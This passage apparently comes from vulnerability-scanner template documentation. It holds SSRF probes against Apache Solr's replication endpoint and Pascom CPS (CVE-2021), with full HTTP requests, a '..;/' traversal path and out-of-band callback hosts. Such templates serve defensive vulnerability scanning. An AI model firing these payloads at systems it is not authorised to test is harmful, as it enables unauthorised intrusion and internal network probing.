 ```
GET /solr/{{core}}/replication/?command=fetchindex&masterUrl=https://interact.sh HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Matchers

**Type - word**

- words
  1. <str name="status">OK</str>
- part - body

### Extractors

**Type - regex**

- internal - True
- name - core
- group - 1
- regex
  1. "name"\:"(.\*?)"

---

# Pascom CPS Server-Side Request Forgery

## Description

- Pascom versions before 7.20 packaged with Cloud Phone System contain a known server-side request forgery vulnerability.
- severity - critical
- tags - cve,cve2021,pascom,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

